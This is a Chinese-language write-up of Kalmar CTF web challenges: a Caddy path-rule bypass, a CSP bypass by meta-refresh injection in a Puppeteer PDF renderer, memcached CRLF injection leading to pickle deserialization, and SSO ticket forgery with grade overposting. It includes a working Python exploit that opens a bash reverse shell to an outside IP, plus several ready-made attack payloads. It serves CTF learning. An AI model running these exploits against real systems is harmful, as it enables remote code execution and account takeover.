

# Ez ⛳

```json
{
    admin off
    local_certs  # Let's not spam Let's Encrypt
}

caddy.chal-kalmarc.tf {
    redir https://www.caddy.chal-kalmarc.tf
}

#php.caddy.chal-kalmarc.tf {
#    php_fastcgi localhost:9000
#}

flag.caddy.chal-kalmarc.tf {
    respond 418
}

*.caddy.chal-kalmarc.tf {
    encode zstd gzip
    log {
        output stderr
        level DEBUG
    }

    # block accidental exposure of flags:
    respond /flag.txt 403

    tls /etc/ssl/certs/caddy.pem /etc/ssl/private/caddy.key {
        on_demand
    }

    file_server {
        root /srv/{host}/
    }
}
```

Caddy是一个Web服务器，和Nginx类似。采用Go语言编写，可用于静态资源托管和反向代理。Caddy默认支持自动化HTTPS配置，可自动申请HTTPS证书并进行配置。从Caddyfile这个配置文件最后一项可知，以caddy.chal-kalmarc.tf结尾的请求都会被映射到根目录为`/srv/{host}/`的静态资源目录。

题目还给了Dockerfile

```python
version: '3.7'

services:
  caddy:
    image: caddy:2.4.5-alpine
    restart: unless-stopped
    ports:
      - "80:80"
      - "443:443"
    volumes:
      - ./files/Caddyfile:/etc/caddy/Caddyfile:ro
      - ./files:/srv
      - caddy_data:/data
      - caddy_config:/config
    command: sh -c "apk add --update openssl nss-tools && rm -rf /var/cache/apk/ && openssl req -x509 -batch -newkey rsa:2048 -nodes -keyout /etc/ssl/private/caddy.key -days 365 -out /etc/ssl/certs/caddy.pem -subj '/C=DK/O=Kalmarunionen/CN=*.caddy.chal-kalmarc.tf' && mkdir -p backups/ && cp -r *.caddy.chal-kalmarc.tf backups/ && rm php.caddy.chal-kalmarc.tf/flag.txt && sleep 1 && caddy run"

volumes:
  caddy_data:
    external: true
  caddy_config:
```

把`./file`下所有`*.caddy.chal-kalmarc.tf`都复制一份到`./backups`下了。同时把`./file/php.caddy.chal-kalmarc.tf/flag.txt`删掉了，其下还有`index.php`

```python
<?php

echo "I can't get this to work :/";
echo system("cat flag.txt");

?>
```

但是`Caddyfile`把`php_fastcgi`注释掉了，执行不了php文件。

试过了，不能`../`目录遍历。



flag.txt前加`./`来绕过`respond /flag.txt 403`。实属是侥幸随便试试得出的

# Invoiced

```javascript
app.get('/orders', (req, res) => {
  if (req.socket.remoteAddress != "::ffff:127.0.0.1") {
    return res.send("Nice try")
  }
  if (req.cookies['bot']) {
    return res.send("Nice try")
  }
  res.setHeader('X-Frame-Options', 'none');
  res.send(process.env.FLAG || 'kalmar{test_flag}')
})
```

获取flag的逻辑在这个`/orders`接口，本来想着是打SSRF，后面r3师傅提示了XSS，原来自己完全想偏了。

```javascript
app.post('/checkout', async (req, res) => {
  let discountRate = payments.validateDiscount(req.body.discount)
  let id = uuidv4();
  
  //TODO: add support for more products
  let total = 414

  if (total * (1 - discountRate)> 0) {
    try {
      return res.redirect(payments.getPaymentURL(id))
    } catch (e) {
      res.statusCode = 500
      return res.send(e.message)
    }
  }
  
  //TODO: add order to database
  let pdffile = await pdf.renderPdf(req.body)
  res.setHeader('Content-Type', 'application/pdf');
  res.setHeader('Content-Disposition', 'inline; filename=invoice.pdf')
  return res.send(pdffile)
}) 

async function renderPdf(body){
    const browser = await puppeteer.launch(browser_options);
    const page = await browser.newPage();
    const cookie = {
        "name": "bot",
        "value": "true",
        "domain": "localhost:5000",
        "httpOnly": true,
        "sameSite": "Strict"
    }
    await page.setCookie(cookie)
    await page.goto("http://localhost:5000/renderInvoice?"+querystring.stringify(body), { waitUntil: 'networkidle0' });
    await delay(1000)
    const pdf = await page.pdf({ format: 'A4' });
    await browser.close();
    return pdf
}

app.get('/renderInvoice', async (req, res) => {
  if (!invoice) {
    invoice = await readFile('templates/invoice.html', 'utf8')
  }

  let html = invoice
  .replaceAll("{{ name }}", req.query.name)
  .replaceAll("{{ address }}", req.query.address)
  .replaceAll("{{ phone }}", req.query.phone)
  .replaceAll("{{ email }}", req.query.email)
  .replaceAll("{{ discount }}", req.query.discount)
  res.setHeader("Content-Type", "text/html")
  res.setHeader("Content-Security-Policy", "default-src 'unsafe-inline' maxcdn.bootstrapcdn.com; object-src 'none'; script-src 'none'; img-src 'self' dummyimage.com;")
  res.send(html)
})
```

checkout时会调用`renderPdf`，里面使用了`puppeteer`去获取`renderInvoice`返回的HTML，最后转为pdf。

学过爬虫应该知道`puppeteer`和`Selenium`类似，能够驱动浏览器去访问页面。实际上这时候就相当于服务端有个浏览器，我们可以对其执行XSS攻击。

`renderInvoice`根据我们传入的请求体的字段去替换HTML里面的字段内容。这就是XSS的注入点。

但这里还得绕过CSP

> **"default-src 'unsafe-inline' maxcdn.bootstrapcdn.com;**
>
> **object-src 'none';**
>
> **script-src 'none';**
>
> **img-src 'self' dummyimage.com**

script-src=none就意味着不能用script标签或任何触发js的地方。

这里用meta跳转绕过

`name=jack&address=<meta http-equiv="refresh" content="1;url=http://127.0.0.1:5000/orders">&phone=123456&email=123456&discount=FREEZTUFSSZ1412`

# healthy calc

`celery`是一个由python编写分布式任务调度框架。它专注于实时处理，在任务发布后，管理分配任务到不同的服务器，并取得结果。在执行任务分配时需要一个消息中间件（`Broker`）(如MQ/redis)，在客户端和`Worker`之间进行协调。最后将任务返回的结果存储到数据库（`Backend`）

* `memcached`存在`CRLF`注入（对`Memcached`协议来讲，`\r\n`是可以用来分割命令）

  ```sql
  set key flags exptime bytes
  value 
  
  key：键值key-value结构中的key，用于查找缓存值。
  flags：可以包括键值对的整型参数，客户机使用它存储关于键值对的额外信息 。
  exptime：在缓存中保存键值对的时间长度（以秒为单位，0 表示永远）
  bytes：在缓存中存储的字节数
  ```

* `pylibmc`从`memcached`加载数据时会进行pickle数据反序列化

```python
import requests, base64
from urllib.parse import quote

endpoint = 'http://healthy-calc.chal-kalmarc.tf:8080'

pickle_payload = f"I0\np0\n0S'bash -c \\'{{echo,{base64.b64encode(b'bash -i >& /dev/tcp/1.15.5.67/4444 0>&1')}}}|{{base64,-d}}|{{bash,-i}}\\''\np1\n0(g0\nlp2\n0(I0\ntp3\n0(g3\nI0\ndp4\n0cos\nsystem\np5\n0g5\n(g1\ntR.".encode()

payload = quote('\r\n').join([
    '/calc/add/666/666',
    quote(f'set uwsgi_file__app_chall._add_777_777 1 0 {len(pickle_payload)}'),
    quote(pickle_payload),
    '',
])

print(payload)
# write payload to memcached
r = requests.get(endpoint + payload)
# trrigger the payload
r = requests.get(endpoint + '/calc/add/777/777')
```


# 2Cool4School

## SSO Docs

Reading the html of the login page, shows a comment about TODOs which includes updating the swagger docs. Swagger is a common tool for sharing API documentation and can be accessed on /swagger of the sso. This includes the /register which gives a new account.

## Auth-Bypass

Given the randomly generated student-account given upon request, check the SSO flow Find the /validate path in swagger docs Discover the service and ticket params, given the error Discover the TGT- is needed Discover the XML injection Craft bypass ticket fx http://grade.vcap.me/login?ticket=TGT-8a998821-31c7-11ed-b7f1-0242c0a8c002student57895

## Find teacher-userid

Create a login-url for a exfil service fx http://sso.vcap.me/login?service=http://hackerdomain.tld/example.jpg Upload as profile-picture instead of base64 url Trigger teacher-bot to read your message Use teacher-userid to authenticate as teacher

http://grade.vcap.me/login?ticket=TGT-2f22e014-3aa1-11ed-9918-0242ac1c0002teacher51289

## Change grade

Send update with grade change instead of note change. Due to overposting this allows for changing the grade. There is a filter which can be bypassed by uppercasing "Grade":

{"name":"Fundamentals of Cyber Security","values":{"Grade":"A"}}